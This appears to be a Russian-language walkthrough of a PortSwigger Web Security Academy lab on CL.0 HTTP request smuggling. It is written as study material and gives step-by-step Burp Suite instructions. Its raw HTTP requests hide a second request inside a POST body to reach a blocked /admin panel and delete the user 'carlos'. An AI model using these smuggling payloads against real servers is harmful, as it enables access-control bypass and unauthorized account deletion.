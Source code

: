Перейдем на уязвимый ресурс 

Перейдем в Proxy -> HTTP history и изучим запросы в дельте


найдем запрос 
```
GET /resources/images/blog.svg
```
и отправим его в `Repeater`

а так же отправим в `Repeater` запрос на корневую страницу
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/15.%20CL.0%20request%20smuggling/pics%20for%20walkthrough/1.png)

```
POST /resources/images/blog.svg HTTP/1.1
Host: 0ad4000b03cdb98b82d4292f0051000f.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

GET /asfasjfbifbuiqwfbqobnfwioqbf HTTP/1.1
X-ignore: x
```

и в ответ увидим 400 ошибку
```
"error":"Invalid request"
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/15.%20CL.0%20request%20smuggling/pics%20for%20walkthrough/2.png)

 и соответственно, наш обычный запрос `GET /` принесет на 200 статус респонс код
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/15.%20CL.0%20request%20smuggling/pics%20for%20walkthrough/3.png)

добавим в наш первый запрос хэдер `Connection: keep-alive` и итоге получим 


```
POST /resources/images/blog.svg HTTP/1.1
Host: 0ad4000b03cdb98b82d4292f0051000f.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 20
Connection: keep-alive

GET /asfasjfbifbuiqwfbqobnfwioqbf HTTP/1.1
X-ignore: x
```
Далее объединим запросы в группу

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/15.%20CL.0%20request%20smuggling/pics%20for%20walkthrough/4.png)

далее выберем `Send group in sequence (single connection)`.

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/15.%20CL.0%20request%20smuggling/pics%20for%20walkthrough/5.png)


после отправки у нас на первом запросе будет 200 респонс статус код

а вот на втором - 400
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/15.%20CL.0%20request%20smuggling/pics%20for%20walkthrough/6.png)

Так же перейдя по 
```
https://0ad4000b03cdb98b82d4292f0051000f.web-security-academy.net/admin
```
 в браузере (кнопка Admin panel) увидим
`"Path /admin is blocked"`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/15.%20CL.0%20request%20smuggling/pics%20for%20walkthrough/7.png)

не проблема, поправим в нашем запросе

```
POST /resources/images/blog.svg HTTP/1.1
Host: 0ad4000b03cdb98b82d4292f0051000f.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 32
Connection: keep-alive

GET /admin HTTP/1.1
X-ignore: x
```

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/15.%20CL.0%20request%20smuggling/pics%20for%20walkthrough/8.png)

Вновь отправим в скоупе
и видим, что нас пустило на админскую панель

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/15.%20CL.0%20request%20smuggling/pics%20for%20walkthrough/9.png)

отлично, удалим карлоса как это и требует задание



```
POST /resources/images/blog.svg HTTP/1.1
Host: 0ad4000b03cdb98b82d4292f0051000f.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 55
Connection: keep-alive

GET /admin/delete?username=carlos HTTP/1.1
X-ignore: x
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/15.%20CL.0%20request%20smuggling/pics%20for%20walkthrough/10.png)
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/15.%20CL.0%20request%20smuggling/pics%20for%20walkthrough/11.png)

и получим уведомление об успешно выполненной лабораторной работе

